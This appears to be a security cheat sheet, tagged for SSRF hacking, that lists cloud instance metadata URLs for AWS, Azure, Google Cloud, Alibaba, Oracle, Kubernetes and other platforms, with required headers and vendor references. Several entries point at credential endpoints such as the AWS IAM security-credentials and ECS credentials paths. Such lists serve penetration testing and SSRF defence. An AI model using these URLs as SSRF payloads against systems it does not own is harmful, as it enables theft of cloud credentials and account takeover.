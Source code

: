 ```yaml
---
date: "2020-01-30T16:20:01"
title: Cloud metadata URLs
tags: [ SSR, hacking, cloud metadata urls ]
---
```


### Alibaba

```
http://100.100.100.200/latest/meta-data/
http://100.100.100.200/latest/meta-data/instance-id
http://100.100.100.200/latest/meta-data/image-id
```

**References**
- https://www.alibabacloud.com/help/faq-detail/49122.htm

***

### AWS

```
http://169.254.169.254/latest/user-data
http://169.254.169.254/latest/user-data/iam/security-credentials/[ROLE NAME]
http://169.254.169.254/latest/meta-data/iam/security-credentials/
http://169.254.169.254/latest/meta-data/iam/security-credentials/[ROLE NAME]
http://169.254.169.254/latest/meta-data/ami-id
http://169.254.169.254/latest/meta-data/reservation-id
http://169.254.169.254/latest/meta-data/hostname
http://169.254.169.254/latest/meta-data/public-keys/0/openssh-key
http://169.254.169.254/latest/meta-data/public-keys/[ID]/openssh-key
http://169.254.169.254/
http://169.254.169.254/latest/meta-data/
http://169.254.169.254/latest/meta-data/public-keys/
```

#### ECS Task

```
http://169.254.170.2/v2/credentials/
```

**References**
- http://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html#instancedata-data-categories
- https://docs.aws.amazon.com/AmazonECS/latest/developerguide/task-metadata-endpoint-v2.html

* * * 

### Azure

#### No header Required 

```
http://169.254.169.254/metadata/v1/maintenance
```

#### Requires header
Must use `Metadata: true` request header

```
http://169.254.169.254/metadata/instance?api-version=2017-04-02
http://169.254.169.254/metadata/instance/network/interface/0/ipv4/ipAddress/0/publicIpAddress?api-version=2017-04-02&format=text
```

**References**
- https://azure.microsoft.com/en-us/blog/what-just-happened-to-my-vm-in-vm-metadata-service/
- https://docs.microsoft.com/en-us/azure/virtual-machines/windows/instance-metadata-service

***

### Google Cloud

#### Requires header 

**Must use one of the following headers** 

- `Metadata-Flavor: Google`
- `X-Google-Metadata-Request: True`

```
http://169.254.169.254/computeMetadata/v1/
http://metadata.google.internal/computeMetadata/v1/
http://metadata/computeMetadata/v1/
http://metadata.google.internal/computeMetadata/v1/instance/hostname
http://metadata.google.internal/computeMetadata/v1/instance/id
http://metadata.google.internal/computeMetadata/v1/project/project-id
http://metadata.google.internal/computeMetadata/v1/instance/disks/?recursive=true
```

#### No header required (old)

```
http://metadata.google.internal/computeMetadata/v1beta1/
```

**References**

- https://cloud.google.com/compute/docs/metadata

***

### Digital Ocean

```
http://169.254.169.254/metadata/v1.json
http://169.254.169.254/metadata/v1/
http://169.254.169.254/metadata/v1/id
http://169.254.169.254/metadata/v1/user-data
http://169.254.169.254/metadata/v1/hostname
http://169.254.169.254/metadata/v1/region
http://169.254.169.254/metadata/v1/interfaces/public/0/ipv6/address

```

**References**
- https://developers.digitalocean.com/documentation/metadata/

***


### HP Helion
```
http://169.254.169.254/2009-04-04/meta-data/
```

***


### Kubernetes
```
https://kubernetes.default
https://kubernetes.default.svc.cluster.local
https://kubernetes.default.svc/metrics
```
**References**
- https://twitter.com/Random_Robbie/status/1072242182306832384
- https://kubernetes.io/docs/tasks/debug-application-cluster/debug-service/

***

### OpenStack/RackSpace

```
http://169.254.169.254/openstack
```

**References**
- https://docs.openstack.org/nova/latest/user/metadata-service.html

***


### Oracle Cloud
```
http://192.0.0.192/latest/
http://192.0.0.192/latest/user-data/
http://192.0.0.192/latest/meta-data/
http://192.0.0.192/latest/attributes/
```

**References**
- https://docs.oracle.com/en/cloud/iaas/compute-iaas-cloud/stcsg/retrieving-instance-metadata.html

***

### Packetcloud
```
https://metadata.packet.net/userdata
```

